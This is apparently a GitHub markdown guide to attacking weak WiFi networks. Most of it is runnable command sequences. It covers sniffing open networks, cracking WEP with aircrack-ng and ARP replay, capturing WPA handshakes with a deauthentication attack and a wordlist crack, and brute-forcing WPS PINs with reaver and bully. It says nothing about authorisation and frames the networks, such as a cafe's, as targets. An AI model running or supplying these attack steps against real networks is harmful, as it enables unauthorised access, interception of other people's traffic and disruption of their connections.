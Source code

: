 # 🔓 WiFi Pentesting Guide for Vulnerable Networks

## 🎯 Target: Weak WiFi Networks

Based on security analysis, here are the most vulnerable network types and how to test them:

### 🔴 Critical Risk Networks

#### 1. Open Networks (No Encryption)
```bash
# Connect directly (no password needed)
nmcli device wifi connect "OpenCafe"

# Monitor traffic (requires monitor mode)
sudo airodump-ng wlan0mon

# Capture packets for analysis
sudo tcpdump -i wlan0 -w open_network.pcap
```

#### 2. WEP Networks (Easily Crackable)
```bash
# Put interface in monitor mode
sudo airmon-ng start wlan0

# Capture WEP packets
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w wep_capture wlan0mon

# Generate traffic (helps crack faster)
sudo aireplay-ng -3 -b AA:BB:CC:DD:EE:FF -h YOUR:MAC:ADDR wlan0mon

# Crack WEP key
sudo aircrack-ng wep_capture-01.cap
```

### 🟡 High Risk Networks

#### 3. WPA/WPA2 with TKIP
```bash
# Capture handshake
sudo airodump-ng -c 1 --bssid AA:BB:CC:DD:EE:FF -w wpa_capture wlan0mon

# Force reauthentication
sudo aireplay-ng -0 4 -a AA:BB:CC:DD:EE:FF -c CLIENT:MAC:ADDR wlan0mon

# Crack with wordlist
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt wpa_capture-01.cap
```

#### 4. WPS-Enabled Networks
```bash
# Check for WPS
sudo wash -i wlan0mon

# Bruteforce WPS PIN
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -vv

# Faster WPS attack
sudo bully wlan0mon -b AA:BB:CC:DD:EE:FF
```
